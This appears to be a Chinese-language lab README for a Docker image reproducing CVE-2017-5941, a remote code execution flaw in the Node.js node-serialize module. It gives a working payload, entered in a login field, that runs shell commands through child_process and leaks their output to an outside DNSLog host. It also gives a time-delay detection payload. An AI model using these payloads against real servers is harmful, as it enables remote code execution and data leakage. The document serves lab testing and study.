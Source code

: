 ## Node.js node-serialize 反序列化过程代码执行漏洞（CVE-2017-5941）

### 漏洞信息

 * [Exploiting Node.js deserialization bugfor Remote Code Execution(CVE-2017-5941)](https://www.exploit-db.com/docs/41289.pdf)
 * [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

### 漏洞分析

参见漏洞信息原文分析

### 镜像信息

类型 | 路径 | 
:-:|:-:|:-:
Web 路径 | / | 
Web 物理路径 | /htdocs |
Nodejs 路径 | /opt/node/ |

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nodejs_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nodejs_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

访问: `http://127.0.0.1:8000/` 出现 Web 登录界面代表成功

### 使用与利用

由于该漏洞无回显（如果使用 throw 方式来回显，有时会造成服务宕机，慎用），所以PoC中提供了通过延时的方式来检测的 PoC。而Exp中采用 DNSLog 形式来得到命令回显


#### Exp 使用

1. 打开Demo站点

 > 该Demo站点是在用户输入密码后将用户名和密码保存在 Cookie 中，下次进入时会通过将Cookie反序列化

2. 在登录框中，任意一个输入框（推荐密码框）处输入如下 Payload, 并点击按钮

 ```
_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 `whoami`.`date +%s`.test.dnslog.link')}()
 ```
3. 打开 [DNSLog](http://admin.dnslog.link)，输入账号 `test` 密码 `123456` 进入 test 账号查看执行结果如下：


 - |  host   | type   | date
:-:|:-:|:-:|:-:
74567 | root.1487079354.test.dnslog.link.  | A  | 2017-02-14 21:35:56
74568 |  root.1487079354.test.dnslog.link. |  A  | 2017-02-14 21:35:57

 可以看到`whoami`和`date`命令均被执行，根据结果可知当前用户为 `root`

#### PoC 使用

通过延时的方式来检测的 PoC，适用于不能使用 dnslog 的情况下使用

```
_$$ND_FUNC$$_function (){for(var start = +new Date; +new Date - start <= sleepTime; ) {}}(sleepTime=15000)
```

> 由于 Node.js 中没有 sleep 函数，所以模拟一个

### 参考链接

 * [Exploiting Node.js deserialization bugfor Remote Code Execution(CVE-2017-5941)](https://www.exploit-db.com/docs/41289.pdf)
 * [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)
